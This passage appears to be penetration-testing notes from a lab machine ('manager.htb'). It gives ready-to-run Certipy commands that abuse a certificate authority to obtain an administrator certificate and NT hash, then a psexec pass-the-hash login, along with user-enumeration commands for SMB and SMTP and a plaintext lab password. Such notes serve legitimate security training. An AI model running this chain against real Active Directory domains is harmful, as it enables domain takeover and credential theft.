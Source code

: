 ```
certipy-ad req -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -template SubCA -upn administrator@manager.htb
```

Now we can issue a certificate because we are an officer of the ca

```
certipy-ad ca -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -issue-request <NUMBER of PRIVATE KEY>
```

Retrieve the certificate administrator.pfx
```
certipy-ad req -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -retrieve <NUMBER of PRIVATE KEY>
```

Ensure our local clock is in sync with DCs

```
sudo ntpdate 10.10.11.236
```

Get a TGT from the domain using pfx and then get the NT hash for administrator

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```

Login with impacket-psexec
```
impacket-psexec -hashes <NT HASH>:<NT HASH> administrator@10.10.11.236
```

## Linux 

### Enum4linux

Enum usernames
```
enum4linux -U 192.168.247.42
```

### SMTP
Port 25

User enum 
```
smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 192.168.247.42
```

# Windows Initial Access

## Impacket
